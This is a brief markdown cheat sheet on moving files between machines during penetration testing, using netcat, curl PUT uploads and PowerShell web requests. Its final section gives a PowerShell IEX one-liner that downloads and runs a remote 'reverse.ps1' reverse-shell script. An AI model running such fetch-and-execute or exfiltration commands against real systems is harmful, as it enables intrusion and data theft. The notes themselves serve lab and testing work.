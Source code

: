 # File Transfers
###### tags: `Security`
[TOC]

# Reference
[offsecnewbie](https://guide.offsecnewbie.com/transferring-files)

# Unix
## netcat
* Receiver
    ``` ncat -l -n -v 90 > simpler.py ```
* Sender
    ``` cat simpler.py | nc 10.10.14.207 90 ``` `Ctrl-c`
    
## http - put
### python3 http.server
* Sender: upload - with put method
```
curl --upload-file TEST.txt --url http://192.168.8.9/TEST.txt --http1.0
```
* Receiver: http.server with put method
```
wget https://github.com/WildfootW/Security-utility-Scripts/blob/master/Network_Protocol/http.server_with-put.py
python3 http.server_with-put.py 80
```
### nginx
* Receiver
```
server {
    listen 8001 default_server;
    server_name wildfootw;
    location / {
        root /var/www/upload;
        dav_methods PUT;
    }
}
```
* Sender
```
curl --upload-file captured.cap 10.10.14.14:8001
```
   
# Powershell
[SANS blog](https://pen-testing.sans.org/blog/2017/03/08/pen-test-poster-white-board-powershell-one-line-web-client)
## Invoke-WebRuquest
### upoad - with put method
```
$FilePath = ".\TEST.txt"
$uri = "http://192.168.8.9/TEST.txt"

Invoke-WebRequest -uri $uri -Method Put -Infile $FilePath -ContentType 'text/plain' 
```

### download
```
Invoke-WebRequest -Uri "http://10.10.14.42/wmic_info.bat" -OutFile wmic_info.bat
```
### run sciprt
```
powershell IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.42/reverse.ps1")
maybe you need use \" to escape
```

